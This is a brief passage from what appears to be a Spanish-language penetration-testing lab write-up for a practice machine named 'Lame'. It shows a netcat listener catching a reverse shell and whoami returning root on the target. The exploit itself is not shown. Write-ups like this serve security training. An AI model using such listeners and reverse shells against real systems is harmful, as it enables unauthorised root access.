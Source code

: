 Y recibimos la reverse shell dentro como root

```shell
> nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.3] 38088
whoami
root
hostname
lame
```
